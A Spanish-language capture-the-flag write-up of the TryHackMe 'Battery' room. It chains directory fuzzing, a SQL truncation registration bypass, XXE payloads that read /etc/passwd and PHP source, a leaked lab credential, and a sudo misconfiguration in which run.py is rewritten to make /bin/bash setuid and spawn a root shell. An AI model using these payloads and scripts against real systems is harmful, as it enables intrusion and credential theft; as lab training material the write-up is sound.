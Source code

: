 ```yaml
---
layout: post
title: Battery -THM
subtitle: "Battery -THM"
tags: [thm,sql,xxe]
---
```


## Puertos abiertos

```
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
```

Descarga de binario en la ruta `http:///10.10.24.164/report`

![report](../assets/imgs/battery/report.png)

### Fuzzing web

```
❯ dirsearch -u "http://10.10.24.164/" -w /usr/share/wordlists/dirb/common.txt -e php,txt,html -f -t 60
[...]
[11:06:43] 200 -    1KB - /acc.php
[11:06:44] 200 -  663B  - /admin.php
[11:06:45] 200 -  663B  - /admin.php/
[11:07:02] 302 -  908B  - /dashboard.php  ->  admin.php
[11:07:15] 200 -    2KB - /forms.php
[11:07:21] 403 -  285B  - /icons/
[11:07:21] 200 -  406B  - /index.html
[11:07:30] 302 -    0B  - /logout.php  ->  admin.php
[11:07:53] 200 -  715B  - /register.php
[11:07:54] 200 -   17KB - /report
[11:07:57] 301 -  313B  - /scripts  ->  http://10.10.24.164/scripts/
[11:07:57] 200 -    2KB - /scripts/
[11:07:58] 403 -  293B  - /server-status/
[11:07:58] 403 -  292B  - /server-status
[11:08:15] 302 -    1KB - /with.php  ->  admin.php
```
Posibles usuarios

```
❯ strings report | grep "@bank" | tee users
admin@bank.a
support@bank.a
contact@bank.a
cyber@bank.a
admins@bank.a
sam@bank.a
admin0@bank.a
super_user@bank.a
control_admin@bank.a
it_admin@bank.a
```

### SQL truncation

[https://linuxhint.com/sql-truncation-attack/](https://linuxhint.com/sql-truncation-attack/)

Interptando petición web `register.php`  
Creo una cuenta como usuario administrador obtenido de las cadenas imprimibles del binario `report` que se habia descargado.

`admin@bank.a` tiene 12 caracteres y el tope en el login de la página es 12.  
Por tanto registro un usuario `admin@bank.a  a` con 2 espacios mas y un caracter adicional de esta forma bypasseando la seguridad de registro.

![burp](../assets/imgs/battery/burp.png)

Inicio sesion como usuario `admin@bank.a` 

![admin](../assets/imgs/battery/admin.png)

----

### XML External Entity Attack

> Un ataque de entidad externa XML es un tipo de ataque contra una aplicación que analiza la entrada XML. Este ataque ocurre cuando la entrada XML que contiene una referencia a una entidad externa es procesada por un analizador XML debilmente configurado.

Parámetro vulnerable `<search>`

![test123](../assets/imgs/battery/test123.png)

Payload

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE xxe [
	<!ENTITY payload SYSTEM "file:///etc/passwd">
	]>
	<root>
		<name>
			test
		</name>
		<search>
		&payload;
		</search>
	</root>
```

![passwd](../assets/imgs/battery/passwd.png)

### Obteniendo password para cyber

Payload

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE xxe [
	<!ENTITY payload SYSTEM "php://filter/convert.base64-encode/resource=acc.php">
	]>
	<root>
		<name>
			test
		</name>
		<search>
			&payload;
		</search>
	</root>
```

![acc](../assets/imgs/battery/acc.png)

```
cyber:super#secure&password!
```

Conexion por ssh.

```
ssh cyber@10.10.24.164
```

## Escalada de privilegios

Abusando de permisos mal configurados (sudo)

```
cyber@ubuntu:~$ sudo -l
Matching Defaults entries for cyber on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cyber may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/python3 /home/cyber/run.py
cyber@ubuntu:~$ ls -l
total 8
-rw--w---- 1 cyber cyber  85 Nov 15  2020 flag1.txt
-rwx------ 1 root  root  349 Nov 15  2020 run.py
```

Como estoy dentro de la carpeta de mi usuario puedo eliminar el archivo `run.py`, crearlo nuevamente y editarlo.

```
cyber@ubuntu:~$ rm run.py 
rm: remove write-protected regular file ‘run.py’? y
cyber@ubuntu:~$ ls
flag1.txt
cyber@ubuntu:~$ nano run.py
cyber@ubuntu:~$ cat run.py 
import os
os.system("chmod +s /bin/bash")
os.system("/bin/bash -p")
```

```
cyber@ubuntu:~$ sudo /usr/bin/python3 /home/cyber/run.py
root@ubuntu:~# whoami
root
root@ubuntu:~# cat /root/root.txt 
████████████████████████████████████  
██                                ██  
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██                                ██  
████████████████████████████████████  


                                                battery designed by cyberbot :)
                                                Please give your reviews on catch_me75@protonmail.com or discord cyberbot#1859
```
